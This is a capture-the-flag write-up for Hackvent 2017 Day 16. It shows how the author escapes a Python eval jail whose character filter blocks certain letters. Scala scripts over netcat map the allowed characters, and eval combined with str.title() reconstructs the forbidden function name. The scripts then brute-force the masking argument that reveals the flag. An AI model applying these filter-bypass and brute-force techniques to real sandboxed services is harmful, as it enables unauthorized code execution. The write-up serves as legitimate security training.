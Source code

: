 # Day 16: Try to escape ...

*... from the snake cage*

Santa programmed a secure jail to give his elves access from remote. Sadly the jail is not as secure as expected.

`nc challenges.hackvent.hacking-lab.com 1034`

### Solution

When you connect to the server you see a nice python ascii-art and a hint: *The flag is stored super secure in the function SANTA!*

My first naive attempt was to simply type `SANTA()` in the command prompt.

```
$ nc challenges.hackvent.hacking-lab.com 1034
                  _____
              .-'`     '.
           __/  __       \\
          /  \ /  \       |    ___
         | /`\| /`\|      | .-'  /^\/^\\
         | \(/| \(/|      |/     |) |)|
        .-\__/ \__/       |      \_/\_/__..._
_...---'-.                /   _              '.
 /,      ,             \   '|  `\                \\
| ))     ))           /`|   \    `.       /)  /) |
| `      `          .'       |     `-._         /
\                 .'         |     ,_  `--....-'
 `.           __.' ,         |     / /`'''`
 `'-.____.-' /  /,         |    / /
     `. `-.-` .'  \        /   / |
       `-.__.'|    \      |   |  |-.
          _.._|     |     /   |  |  `'.
    .-''``    |     |     |   /  |     `-.
 .'`         /      /     /  |   |        '.
 /`           /      /     |   /   |\         \\
/            |      |      |   |   /\          |
 ||            |      /      |   /     '.        |
 |\            \      |      /   |       '.      /
 \ `.           '.    /      |    \        '---'/
\  '.           `-./        \    '.          /
 '.  `'.            `-._     '.__  '-._____.'--'''''--.
 '-.  `'--._          `.__     `';----`              \\
    `-.     `-.          `."'```                     ;
       `'-..,_ `-.         `'-.                     /
              '.  '.           '.                 .'

Challenge by pyth0n33. Have fun!

The flag is stored super secure in the function SANTA!
>>> a = SANTA()
name 'santa' is not defined
```

As you can see my input was lowercased for some reason. So I tried to get rid of it by using `eval` and `upper` but it didn't work at all.

```
>>> a = eval('SANTA()')
name 'santa' is not defined
>>> a = eval('santa()'.upper())
Denied
```

It was a surprise to get `Denied` response. It didn't make sense to me at this point. I experimented more with the input and then I realized that some characters are blocked and always cause denial. I wrote a simple script to find allowed characters for me.

```scala
val nc = NetCat.open("challenges.hackvent.hacking-lab.com", 1034)
try {
// read prompt
nc.read

// find allowed chars
val allowedChars = (' ' to '~').filter { c =>
nc.writeln(c.toString)
!nc.read.contains("Denied")
}
println(allowedChars.mkString(", "))
} finally {
nc.close
}
```

These are characters allowed in input:

```
", ', (, ), +, ., 0, 1, 2, 3, 7, 9, A, C, D, E, I, L, N, O, P, R, S, T, V, [, ], _, a, c, d, e, i, l, n, o, p, r, s, t, v
```

Now it finally makes sanse why `eval()` is allowed but `upper()` isn't - because of letter `u` which is not allowed in general. Now I got the idea what I'm dealing with.

After reading Python documentation I found a promising String method [`title()`](https://docs.python.org/3.6/library/stdtypes.html#str.title) which could work in combination with `eval()` and `print()`. Let's try it.

```
>>> a = print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'()'))
No flag for you!
```

OK, now it looks like we are getting somewhere! The `SANTA()` function is finally called but we need to find the right argument to pass in. I did some experiments with simple arguments and found interesting thing:

```
>>> a = print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'(1)'))
zip argument #2 must support iteration
>>> a = print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'("1")'))
H
```

This indicates that `SANTA()` function calls `zip()` at some point and the argument should be a string. I wrote another script to try to find a string of allowed charatecters which results in the known flag prefix `HV17-`.

```scala
val nc = NetCat.open("challenges.hackvent.hacking-lab.com", 1034)
try {
val allowedChars = List('"', ''', '(', ')', '+', '.', '0', '1', '2', '3', '7', '9', 'A', 'C', 'D', 'E', 'I', 'L', 'N', 'O', 'P', 'R', 'S', 'T', 'V', '[', ']', '_', 'a', 'c', 'd', 'e', 'i', 'l', 'n', 'o', 'p', 'r', 's', 't', 'v')

// read prompt
nc.read
 
// try to find suitable argument for SANTA() function
val expected = "HV17-"
var arg = ""
for (len <- 1 to expected.length) {
  var found: Option[Char] = None
  for (c <- allowedChars) {
    if (found.isEmpty) {
      val msg = """print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'("""" + (arg + c) + """")'))"""
      nc.writeln(msg)
      val res = nc.read
      if (res.startsWith(expected.substring(0, len))) {
        found = Some(c)
        println(s"'${arg + c}' -> '${res.split("\n")(0)}'")
      }
    }
  }
  arg += found.get
}
} finally {
nc.close
}
```

Here is the result:

```
'1' -> 'H'
'13' -> 'HV'
'133' -> 'HV1'
'1337' -> 'HV17'
'13371' -> 'HV17-'
```

It looks like masking with mask `1337`. The right argument should be repeated mask of total length of 29 characters. Let's verify this assumption with a complete program (source code can be found [here](../../src/main/scala/hackvent2017/Day16.scala)) which puts all the pieces together.

```scala
def main(args: Array[String]): Unit = {
  val nc = NetCat.open("challenges.hackvent.hacking-lab.com", 1034)
  try {
    // read prompt
    nc.read

    //val allowedChars = findAllowedChars(nc)
    //val argForFlagPrefix = findArgumentForExpectedResult(nc, allowedChars, "HV17-")

    val mask = (0 until 29).map(i => "1337".charAt(i % 4)).mkString
    println(callSanta(nc, mask))
  } finally {
    nc.close
  }
}

private def findAllowedChars(nc: NetCat): Seq[Char] = {
  (' ' to '~').filter { c =>
    nc.writeln(c.toString)
    !nc.read.contains("Denied")
  }
}

private def findArgumentForExpectedResult(nc: NetCat, allowedChars: Seq[Char], exptectedResult: String): String = {
  var arg = ""
  for (len <- 1 to exptectedResult.length) {
    var found: Option[Char] = None
    for (c <- allowedChars) {
      if (!found.isDefined) {
        val res = callSanta(nc, arg + c)
        if (res.startsWith(exptectedResult.substring(0, len))) {
          found = Some(c)
          println(s"'${arg + c}' -> '${res}'")
        }
      }
    }
    arg += found.get
  }
  arg
}

private def callSanta(nc: NetCat, arg: String): String = {
  val msg = """print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'("""" + arg + """")'))"""
  nc.writeln(msg)
  nc.read.split("\n")(0)
}
```

The result is:

```
HV17-J41l-esc4-p3ed-w4zz-3asy
```